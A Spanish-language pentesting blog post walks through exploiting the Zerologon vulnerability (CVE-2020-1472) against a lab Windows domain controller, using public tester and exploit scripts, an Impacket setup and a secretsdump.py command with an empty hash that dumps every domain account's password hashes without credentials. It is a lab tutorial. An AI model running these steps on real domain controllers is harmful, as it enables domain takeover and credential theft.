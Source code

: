 ```yaml
---
layout: single
title: Cómo explotar la vulnerabilidad Zerologon
excerpt: "Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero... ¿realmente es crítica?. Lo analizaremos en detalle en este artículo."
date: 2020-09-16
classes: wide
header:
  teaser: /assets/images/zerologon/zerologon.png
  teaser_home_page: true
categories:
  - Research
  - Utilidades
  - Exploits
  - Vulnerabilidades
tags:
  - Pentesting
  - Herramientas
  - Windows
  - Linux
  - Domain Controller
  - Guías
  - Privilege Escalation
---
```


![](/assets/images/zerologon/zerologon.png)

## ¿Es realmente crítico Zerologon?

La respuesta es un **si** rotundo. No creo que haga falta a estas alturas comentar qué es Zerologon... ya existen montón de artículos a disposición detallando de forma técnica y ejecutiva en qué consiste la vulnerabilidad.

Centrémonos en la explotación, ¿cómo se explota zerologon?, vamos a ello. En mi caso comenzaré haciendo uso de la siguiente utilidad:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Este recurso, nos permitirá a través del script `zerologon_tester.py`, saber si el DC en cuestión es vulnerable ante el ataque. Yo ya dispongo de un DC virtualizado contra el que lanzar el tester, en caso de no contar con uno, te recomiendo hacer uso de la utilidad '**AD-AutomationLab**', una herramienta en PowerShell que desarrollé para el despliegue automatizado de un Domain Controller entre otras cosas (también es capaz de configurar vulnerabilidades reconocidas sobre el servidor).

Por aquí os dejo el enlace para aquellos/as que lo quieran usar:

* [https://github.com/s4vitar/AD-AutomationLab](https://github.com/s4vitar/AD-AutomationLab)


## ¿Cómo se explota la vulnerabilidad Zerologon?

Una vez tengamos ya el Domain Controller operando, podremos empezar. La dirección IP de mi DC en este caso es la `192.168.101.130`, y la dirección IP de mi equipo atacante la `192.168.101.128`.

Partiendo de este punto, estos son los resultados obtenidos al lanzar el tester sobre el DC:

<p align="center">
<img src="/assets/images/zerologon/1.png">
</p>

Toda la información referente al nombre de equipo, dominio y demás puede obtenerse rápidamente desde CrackMapExec con un simple escaneo por Samba:

<p align="center">
<img src="/assets/images/zerologon/2.png">
</p>

En base a los resultados de la primera foto, vemos que el DC es vulnerable. Lo único que nos queda por tanto es explotar la vulnerabilidad.

En esta ocasión, estaré usando el siguiente recurso de la plataforma de GitHub:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Esta utilidad cuenta con un script de nombre `cve-2020-1472-exploit.py`, el cual como información nos solicita el nombre del equipo y la dirección IP de la máquina víctima.

Antes de explotar la vulnerabilidad, para evitar problemas con Impacket, recomiendo tirar de `virtualenv` para tras su instalación ejecutar posteriormente la herramienta. Sería seguir básicamente los siguientes pasos:

```bash
┌─[root@parrot]─[/home/s4vitar/Desktop]
└──╼ #virtualenv zerologon
created virtual environment CPython3.8.2.final.0-64 in 178ms
  creator CPython3Posix(dest=/home/s4vitar/Desktop/zerologon, clear=False, global=False)
  seeder FromAppData(download=False, CacheControl=latest, appdirs=latest, certifi=latest, chardet=latest, colorama=latest, contextlib2=latest, distlib=latest, distro=latest, html5lib=latest, idna=latest, ipaddr=latest, lockfile=latest, msgpack=latest, packaging=latest, pep517=latest, pip=latest, pkg_resources=latest, progress=latest, pyparsing=latest, pytoml=latest, requests=latest, retrying=latest, setuptools=latest, six=latest, urllib3=latest, webencodings=latest, wheel=latest, via=copy, app_data_dir=/root/.local/share/virtualenv/seed-app-data/v1.0.1.debian)
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator,XonshActivator
┌─[root@parrot]─[/home/s4vitar/Desktop]
└──╼ #source zerologon/bin/activate
(zerologon) ┌─[root@parrot]─[/home/s4vitar/Desktop]
└──╼ #cd /opt/
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket
Clonando en 'impacket'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (26/26), done.
remote: Total 18517 (delta 19), reused 26 (delta 13), pack-reused 18478
Recibiendo objetos: 100% (18517/18517), 6.17 MiB | 5.96 MiB/s, listo.
Resolviendo deltas: 100% (14103/14103), listo.
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #cd impacket/
(zerologon) ┌─[root@parrot]─[/opt/impacket]
└──╼ #python3 setup.py install

...

```

Una vez hecho, la ejecución del exploit debe devolver un output como este en caso de éxito:

<p align="center">
<img src="/assets/images/zerologon/3.png">
</p>

Si esto es así, ya todo lo demás está hecho. Lo único que tendríamos que hacer, tal y como nos indica el README del siguiente recurso:

* [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

Sería ejecutar la siguiente sentencia:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

Para mi caso quedaría de la siguiente forma:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 's4vicorp/DC-Company$@192.168.101.130'
```

Obteniendo los siguientes resultados tras su ejecución:

<p align="center">
<img src="/assets/images/zerologon/4.png">
</p>

Conseguimos listar los hashes de todos los usuarios existentes a nivel de dominio, incluido aquellos que sean administradores del dominio. Básicamente el mismo efecto que obtendríamos si desde CrackMapExec hubiéramos hecho uso de la acción `--ntds vss`, pero claro... en ese caso habríamos necesitado credenciales válidas, lo bueno del Zerologon es que no hace falta nada de eso :)
